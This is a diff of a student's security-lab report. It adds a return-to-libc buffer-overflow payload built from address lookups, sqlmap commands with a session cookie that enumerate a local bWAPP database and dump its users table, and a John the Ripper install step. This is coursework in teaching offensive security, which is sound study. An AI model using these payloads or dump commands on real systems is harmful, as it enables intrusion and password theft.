

.

diff --git a/22110052_DangHuuLoc.md b/22110052_DangHuuLoc.md
@@ -131,6 +131,12 @@ Since the hexstring is too large for the buffer, we can't overwrite the return a
 
 By replacing the return address with `system()`'s address, and replace `argc` with the address of `exit()`, I will be able to run the shellcode. And, argv will be the arguments for `system()`.
 
+To get the address of the shellcode, I will save it to a environment variable named VULN_ENV:
+
+```
+export VULN_ENV=/home/hloc/Seclabs/Lab#1
+```
+
 ## 3. Compiling the vulnerable program
 
 ### 3.1. Preparing the environment
@@ -170,7 +176,7 @@ break main
 run
 ```
 
-Then to find the address of `system()` and `exit()`:
+Then to find the address of `system()`, `exit()`, and `sh` (or VULN_ENV):
 
 ```bash
 p system
@@ -178,27 +184,114 @@ p system
 p exit
 ```
 
-![alt text](./img/sys_addr.png)
+and get the address of shellcode:
 
-From the output, the address of `system()` is `0x7ffff7ddad70` and the address of `exit()` is `0x7ffff7dcf5f0`
+```
+p (char*)getenv("VULN_ENV")
+```
+
+![alt text](./img/sys_addr.png)
+![alt text](./img/VULN_ENV.png)
+
+From the output, the address of `system()` is `0xf7dc9170`, the address of `exit()` is `0xf7dbb460`, and the address of VULN_ENV is `0xffffd213`
 
 ### 3.3. Craft the input
 
-First, we have to fill the 16 b ytes of `buffer`, then, we overwrite the address of `eip` and replace it with the address of `system()`
+First, we have to fill the 16 bytes of `buffer` and 4 bytes of `ebp`, then, we overwrite the address of `eip` and replace it with the address of `system()`
 
-**Conclusion**: comment text about the screenshot or simply answered text for the question
+The attack payload:
+
+```
+run $(python -c "print('a'*20 + '\x70\x91\xdc\xf7' + '\x60\xb4\xdb\xf7' + '\x13\xd2\xff\xff')")
+```
 
 # Task 2: Attack on the database of Vulnerable App from SQLi lab
 
 **Question 1**: Use sqlmap to get information about all available databases
 **Answer 1**:
 
-First, we start sqlmap
+First, we install and start sqlmap
 
-Then,
+```
+sudo pip3 install sqlmap
+```
+
+![alt text](/img/install_sqlmap.png)
+![alt text](/img/sqlmap.png)
+
+Then, to check for vulnerability, we check the bWapp to see what will happend if we select data:
+![alt text](/img/b.png)
+
+We can see that when we select a movie, the URL changed:
+![alt text](/img/url.png)
+
+### Get all information about databases:
+
+First, we need to get the cookie for login credential:
+![alt text](/img/cookie.png)
+
+Then, we craft the sqlmap command:
+
+```
+sqlmap "http://localhost:8025/sqli_2.php?movie=1&action=go" --cookie="PHPSESSID=vgkv5rm51fhe6e2qo9qvhc8251; security_level=0" --dbs
+```
+
+-   -u: The target URL.
+-   --cookie: Your DVWA session cookie (replace PHPSESSID=your-session-id with your actual session ID).
+-   --dbs: Tells sqlmap to retrieve the available databases.
+
+![alt text](/img/run1.png)
+
+After a few minutes, the result is
+![alt text](/img/dbs.png)
+
+**Conclusion**: There are 4 available databases: bWAPP, information_schema, mysql, performance_schema
 
 **Question 2**: Use sqlmap to get tables, users information
 **Answer 2**:
 
+To get tables in the database named `bWAPP`, we use
+
+```
+sqlmap "http://localhost:8025/sqli_2.php?movie=1&action=go" --cookie="PHPSESSID=vgkv5rm51fhe6e2qo9qvhc8251; security_level=0" -D bWAPP --tables
+```
+
+-   -D dvwa: Specifies the dvwa database.
+-   --tables: Lists all tables in the specified database.
+
+![alt text](/img/tables.png)
+
+There are 5 tables: blog, heroes, movies, users, visitors
+
+And to get user information, we will exploit the `users` talbes:
+
+```
+sqlmap "http://localhost:8025/sqli_2.php?movie=1&action=go" --cookie="PHPSESSID=vgkv5rm51fhe6e2qo9qvhc8251; security_level=0" -D bWAPP -T users --dump
+```
+
+-   -T users: Specifies the users table.
+-   --dump: Dumps the entire content of the table.
+
+![alt text](/img/users.png)
+
+As we can see, there are 2 users, and their password is hashed (but sqlmap have decode it anyway - "bug")
+
+**Conclusion**: there are 5 tables: blog, heroes, movies, users, visitors; and 2 users in the users table
+
 **Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
 **Answer 3**:
+
+First, install John the Ripper:
+
+```
+sudo apt-get install john
+```
+
+Then we will be able to use john to reveal the password:
+
+```
+
+```
+
+The result is:
+![](/img/pwd.png)
